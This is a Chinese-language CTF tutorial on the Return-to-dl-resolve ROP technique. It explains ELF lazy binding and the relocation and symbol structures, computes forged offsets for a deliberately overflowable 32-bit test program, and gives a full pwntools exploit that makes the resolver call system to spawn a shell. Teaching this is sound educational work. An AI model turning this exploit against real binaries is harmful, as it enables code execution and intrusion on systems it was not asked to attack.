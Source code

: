 本文介绍一种CTF中的高级rop技巧-Return-to-dl-resolve，不久前的0CTF中的babystack和blackhole就用到了这个技巧。

## 预备知识
在开始本文前希望大家能预先了解一下什么叫延迟绑定

好了，我们开始

假设存在以下程序：

    //gcc x86.c -fno-stack-protector -m32 -o x86
    #include <unistd.h>
    #include <string.h>
    char gift[0x200];
    void fun(){
    	char buffer[0x20];
    	read(0,buffer,0x200);
    }
    int main(){
    	fun();
    	return 0;
    }

当程序第一次执行read函数时,先执行

    →  0x804841f <fun+20> call   0x80482e0 <read@plt>
       ↳   	0x80482e0 <read@plt+0> jmp	DWORD PTR ds:0x804a00c <--先跳到0x804a00c指向的地址处执行
       		0x80482e6 <read@plt+6> push 0x0 <---此时入栈的0是JMPREL段（对应 .rel.plt节）的read的Elf32_Rel的相对偏移,即rel_offset
       		0x80482eb <read@plt+11>jmp	0x80482d0

程序会跳到0x804a00c指向的地址处执行，第一次调用函数时，0x804a00c中存的就是下一句指令push 0x0的地址0x80482e6

    gef➤  x/x 0x804a00c
    0x804a00c:	0x080482e6

继续执行，先将0x0压栈，再跳到0x80482d0处执行，0x80482d0处的代码为

    .plt:080482D0 push	ds:dword_804A004 <---此时入栈的是JMPREL段的基地址
    .plt:080482D6 jmp 	ds:dword_804A008

0x804a000是got表的起始地址。

GOT表的前三项有特殊含义:
第一项是.dynamic段的地址，第二个是link_map的地址，第三个是_dl_runtime_resolve函数的地址，第四项开始就是函数的GOT表了，在这里第一项就是read@got了

    .got.plt:0804A000 _GLOBAL_OFFSET_TABLE_ dd offset _DYNAMIC
    .got.plt:0804A004 dword_804A004   dd 0; DATA XREF: sub_80482D0↑r
    .got.plt:0804A008 dword_804A008   dd 0; DATA XREF: sub_80482D0+6↑r
    .got.plt:0804A00C off_804A00C dd offset read  ; DATA XREF: _read↑r

以上代码就相当于执行_dl_runtime_resolve(link_map,rel_offset)

rel是个结构体：

    typedef struct
    {
      Elf32_Addr	r_offset;   /*  这个值就是got表的虚拟地址 */
      Elf32_Word	r_info; /* .dynsym节区符号表索引 */
    } Elf32_Rel;
    #define ELF32_R_SYM(val)((val) >> 8)
    #define ELF32_R_TYPE(val)   ((val) & 0xff)

rel结构存在于.rel.plt段中

.rel.plt段基址使用objdump -s -j .rel.plt ./x86命令来查看

_dl_runtime_resolve先根据rel_offset定位到这个rel结构，再根据r_info定位到.dynsym节区中的动态链接符号表，符号表由Elf32_Sym结构表示：

    typedef struct
    {
    Elf32_Word	st_name;   /* Symbol name (string tbl index) 这个就是*/
    Elf32_Addr	st_value;  /* Symbol value */
    Elf32_Word	st_size;   /* Symbol size */
    unsigned char 	st_info;   /* Symbol type and binding */
    unsigned char 	st_other;  /* Symbol visibility under glibc>=2.2 */
    Elf32_Section 	st_shndx;  /* Section index */
    } Elf32_Sym;

.dynsym基地址使用objdump -s -j .dynsym ./x86来获取。

其中第一项st_name就是其对应的函数名字符串到.dynstr节起始的偏移值。函数定位到Elf32_Sym结构再根据st_name定位到.dynstr中的函数名

.dynstr节包含了动态链接的字符，字符串是直接以ASCII码的形式储存的

.dynstr的基地址由objdump -s -j .dynstr ./x86来获得。
    
    $ objdump -s -j .dynstr ./x86
    
    ./x86: file format elf32-i386
    
    Contents of section .dynstr:
     804821c 006c6962 632e736f 2e36005f 494f5f73  .libc.so.6._IO_s
     804822c 7464696e 5f757365 64007265 6164005f  tdin_used.read._
    
    gef➤  x/5s 0x804821c
    0x804821c:	""
    0x804821d:	"libc.so.6"
    0x8048227:	"_IO_stdin_used"
    0x8048236:	"read"
    0x804823b:	"__libc_start_main"

最终找到了函数名，程序根据函数名找到函数的真正地址，写入read@got

总结一些流程：

    index_arg(push xx)——>.rel.plt(Elf32_Rel)——>.dynsym(Elf32_Sym)——>.dynstr(st_name)

## 利用思路

事实上，虚拟地址是通过最后一个箭头，即从st_name得来的，只要我们能够修改这个st_name就可以执行任意函数。比如把st_name的内容修改成为"system"。

而index_arg是我们控制的，我们需要做的是通过一系列操作。把index_arg可控转化为st_name可控。

我们需要在一个可写地址上构造一系列伪结构就可以完成利用

##  漏洞利用

就以以下这个程序为例

    //gcc x86.c -fno-stack-protector -m32 -o x86
    #include <unistd.h>
    #include <string.h>
    char gift[0x200];
    void fun(){
    	char buffer[0x20];
    	read(0,buffer,0x200);
    }
    int main(){
    	fun();
    	return 0;
    }

我们可以在gift中构造我们需要的伪结构

### 1.计算index_arg控制.rel.plt(Elf32_Rel)结构体位置

index_arg是我们直接通过压栈参数进行控制的，使用要伪造的目标地址减去.rel.plt段基地址就是index_arg的值

    .bss:0804A040 public gift
    .bss:0804A040 giftdb? ;
    .bss:0804A041 db? ;
    .bss:0804A042 db? ;
    
    $ objdump -s -j .rel.plt ./x86
    ./x86: file format elf32-i386
    Contents of section .rel.plt:
     08048298 0ca00408 07010000 10a00408 07030000  ................

index_arg = 0x0804A040 - 0x08048298 = 0x1da8

### 2.构造.rel.plt(Elf32_Rel)控制.dynsym(Elf32_Sym)

    r_info的计算方法是
    1.n = (欲伪造的地址-.dynsym基地址)/0x10
    2.r_info = n<<8

    $ objdump -s -j .dynsym ./x86
    
    ./x86: file format elf32-i386
    
    Contents of section .dynsym:
     80481cc 00000000 00000000 00000000 00000000  ................

	n = ((0x0804A040 + 4*4) - 0x080481cc)/0x10
	r_info = n<<8 = 0x1e800

	还需要过#define ELF32_R_TYPE(val)   ((val) & 0xff)宏定义，ELF32_R_TYPE(r_info)=7，因此
	r_info = 0x1e800 + 0x7 = 0x1e807

### 3.构造.dynsym(Elf32_Sym)控制.dynstr(st_name)

    $objdump -s -j .dynstr ./x86
    ./x86: file format elf32-i386
    Contents of section .dynstr:
     804821c 006c6962 632e736f 2e36005f 494f5f73  .libc.so.6._IO_s

	st_name = (0x0804A040 + 8 + 24) - 0x804821c = 0x1e44

### 4. .dynstr写入system完成利用

直接写入ASCII形式的system即可

最终的gift中排布形式如下

<center>![](./Images/1.1.png)</center>

## exp

    from pwn import*
    p = process('./x86')
    #context.log_level = 'debug'
    elf = ELF('./x86')
    gift = 0x0804A040
    
    payload = 0x28*'a' + 4*'a'
    payload +=  p32(elf.plt['read']) + p32(0x0804840B)
    payload += p32(0) + p32(gift) + p32(17*4)
    
    p.sendline(payload)
    
    payload = ''
    payload += p32(0x0804a00c) + p32(0x1e807)
    payload += p32(0x1e44)*2
    payload += p32(0) + p32(0x00000012)*3
    payload += 'system\x00\x00'
    payload += 'system\x00\x00'
    payload += '/bin/bash\x00'
    
    p.sendline(payload)
    
    payload = 0x28*'a' + 4*'a'
    payload += p32(0x080482D0) + p32(0x1da8) + p32(0x0804840B) + p32(gift + 12*4)
    p.sendline(payload)
    
    p.interactive()


这个技巧主要用在没有libc.so以及程序中没有输出函数的情况下